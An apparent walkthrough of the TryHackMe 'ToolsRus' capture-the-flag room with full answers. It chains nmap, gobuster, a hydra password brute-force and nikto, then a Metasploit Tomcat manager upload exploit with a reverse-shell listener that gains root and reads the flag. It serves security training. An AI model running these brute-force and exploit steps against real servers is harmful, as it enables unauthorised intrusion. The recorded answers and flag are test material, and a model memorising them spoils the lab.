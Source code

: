# ToolsRus Wlakthrough
### Link
- https://tryhackme.com/room/toolsrus
------------------------
### Nmap
- sudo nmap -sC -sV -p- [IP]
- Open port :   
    - 80
    - 1234 --> Apache Tomcat/Coyote JSP engine 1.1
    - 8009 --> Apache Jserv (Protocol v1.3)
- Picture: [ToolsRus_walkthrough_1.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_1.png)
- What other port that serves a webs service is open on the machine?
**Answers**: 1234
- What is the server version (run the scan against port 80)?
**Answer**: Apache/2.4.18
- What version of Apache-Coyote is this service using?
**Answer**: 1.1
------------------------
### Dirbuster
- sudo gobuster dir -u http://[IP]:[Port] -w [path]/wordlists/dirbuster/directory-list-2.3-medium.txt
- Picture: [ToolsRus_walkthrough_2.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_2.png)
- What directory can you find, that begins with a "g"?
**Answers**: /guidelines
- Whose name can you find from this directory?
**Answers**: bob
- What directory has basic authentication?
**Answer**: /protected
------------------------
### hydra
- sudo hydra -l bob -P  [path]wordlists/rockyou.txt -f 10.10.248.249 http-get /protected/
- Picture: [ToolsRus_walkthrough_3.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_3.png)
- What is bob's password to the protected part of the website?
**Answers**: bubbles
- Going to the service running on that port, what is the name and version of the software?
- Picture: [ToolsRus_walkthrough_4.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_4.png)
**Answer**: Apache Tomcat/7.0.88
------------------------
### nikto
- Log to manager with bob credentials
- Picture: [ToolsRus_walkthrough_5.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_5.png)
- sudo nikto -h http://10.10.23.90:1234/manager/html/ -id "bob:bubbles"
- How many documentation files did Nikto identify?
**Answer**: 5
------------------------
### Metasploit
- Search exploit for tomcat
    - search type:exploit name:tomcat
    - Picture: [ToolsRus_walkthrough_6.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_6.png)
- Select exploit/multi/http/tomcat_mgr_upload
    - use exploit/multi/http/tomcat_mgr_upload
    - Picture: [ToolsRus_walkthrough_7.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_7.png)
- Check settings we need to define
    - show options
    - Picture: [ToolsRus_walkthrough_8.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_8.png)
- As we can see we have : HttpPasswrod / HttpUsername / RHOSTS / RPORT / LHOSTS
    - set HttpPassword bubbles
    - set HttpUsername bob
    - set RHOSTS [IP]
    - set RPORT 1234
    - set LHOSTS [local IP machine]
        - - Picture: [ToolsRus_walkthrough_9.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_9.png) , [ToolsRus_walkthrough_10.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_10.png)
        - Let's double check if we indicate all information
        - [ToolsRus_walkthrough_11.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_11.png)
- Execute the payload
    - execution
- When the payload is active, type these commands
    - shell
    - id
- What user did you get a shell as?
**Answer**: root
- What text is in the file /root/flag.txt
    - cd root
    - ls
    - cat flag.txt
**Answer**: ff1fc4a81affcc7688cf89ae7dc6e0e1